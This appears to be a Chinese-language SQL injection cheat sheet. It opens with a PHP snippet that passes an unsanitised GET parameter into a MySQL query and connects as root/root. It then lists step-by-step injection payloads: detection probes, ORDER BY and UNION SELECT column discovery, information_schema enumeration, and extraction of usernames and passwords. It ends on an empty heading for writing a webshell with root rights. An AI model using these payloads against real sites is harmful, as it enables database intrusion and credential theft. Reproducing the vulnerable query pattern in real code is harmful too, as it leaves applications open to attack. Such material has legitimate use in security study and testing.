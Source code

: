 
### SQL 注入

``` PHP
<?php
$con=mysql_connect("localhost","root","root");
$id=@$_GET['id'];//通过get方式传递id的参数的值
if(!$con){
  die('Could not connect: ' . mysql_error());
}else{
  mysql_select_db("mst");
  $query="select * from $id";
  echo mysql_result(mysql_query($query), 0, "name");//columns
}
?>
```

``` sql
判断是否存在SQL注入
'
and 1=1
and 1=2

暴字段长度
Order by 数字

匹配字段
and 1=1 union select 1,2,..,n

暴字段位置
and 1=2 union select 1,2,..,n
 
利用内置函数暴数据库信息
version() database() user()

不用猜解可用字段暴数据库信息(有些网站不适用):
and 1=2 union all select version()
and 1=2 union all select database()
and 1=2 union all select user()

操作系统信息：
and 1=2 union all select @@global.version_compile_os from mysql.user 

数据库权限：
and ord(mid(user(),1,1))=114  返回正常说明为root
 
暴库 (mysql>5.0)
Mysql 5 以上有内置库 information_schema，存储着mysql的所有数据库和表结构信息
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1

猜表
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录）—

猜字段
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1

暴密码
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1

高级用法（一个可用字段显示两个数据内容）：
Union select 1,2,3concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1

直接写马(Root权限)
```